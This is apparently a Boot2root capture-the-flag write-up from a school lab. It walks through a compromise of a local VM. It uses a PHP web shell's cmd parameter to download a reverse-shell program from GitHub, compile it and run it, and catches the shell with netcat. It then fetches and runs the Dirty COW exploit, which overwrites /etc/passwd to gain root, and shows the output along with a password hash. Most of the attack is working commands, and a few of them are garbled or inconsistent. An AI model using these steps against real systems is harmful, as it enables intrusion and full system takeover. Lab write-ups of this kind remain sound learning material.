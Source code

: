 # writeup 2

## Reverse shell

- Introduce our script in the server\
https://192.168.56.102/forum/templates_c/myfile.php?cmd=curl%20https://raw.githubusercontent.com/Gropopus/Boot2root/master/reverse_shell.c%20--output%20reverseshell.c

- Compile it
```
$ curl https://192.168.56.102/forum/templates_c/myfile.php?cmd=gcc%20reverseshell.c%--output%20reverseshell.c
```
 - Launch netcat in the terminal
```
$ nc -vl 5432
```
- Execute the script\
https://192.168.56.102/forum/templates_c/myfile.php?cmd=./a.out

In terminal :
```
Listening on 0.0.0.0 5432
Connection received on e1r13p5.clusters.42paris.fr 55310
$ whoami
www-data
```

## Dirty cow

```
$ uname -r
3.2.0-91-generic-pae
```

valid exploit : `dirtycow` https://github.com/firefart/dirtycow/blob/master/dirty.c\
This program create a user with root privileges.

```
This exploit uses the pokemon exploit of the dirtycow vulnerability
// as a base and automatically generates a new passwd line.
// The user will be prompted for the new password when the binary is run.
// The original /etc/passwd file is then backed up to /tmp/passwd.bak
// and overwrites the root account with the generated line.
// After running the exploit you should be able to login with the newly
// created user.
```

```
$ cd /tmp
$ curl https://raw.githubusercontent.com/Gropopus/Boot2root/master/dirty.c --outpput dirty.c
$ gcc -pthread dirty.c -o dirty -lcrypt
gcc: error trying to exec 'cc1': execvp: No such file or directory
$ env
...
PWD=/tmp
...
$ export PATH=/usr/lib/lightdm/lightdm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
$ gcc -pthread dirty.c -o dirty -lcrypt
$ ./dirty
Please enter the new password: p
/etc/passwd successfully backed up to /tmp/passwd.bak
iciComplete line:
root:fil.mzz26AR.E:0:0:pwned:/root:/bin/bash

mmap: b7fd9000
ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'root' and the password 'p'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
/etc/passwd successfully backed up to /tmp/passwd.bak
iciComplete line:
root:fil.mzz26AR.E:0:0:pwned:/root:/bin/bash

mmap: b7fd9000
madvise 0

Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'root' and the password 'p'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd

$ cat /etc/passwd
...
root:fil.mzz26AR.E:0:0:pwned:/root:/bin/bash
...
$ su root
su: must be run from a terminal
```
Connect with Laurie:\
*reminder password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4*

```
$ ssh laurie@192.168.56.102
$ su root
$ whoami
root
```
The end !
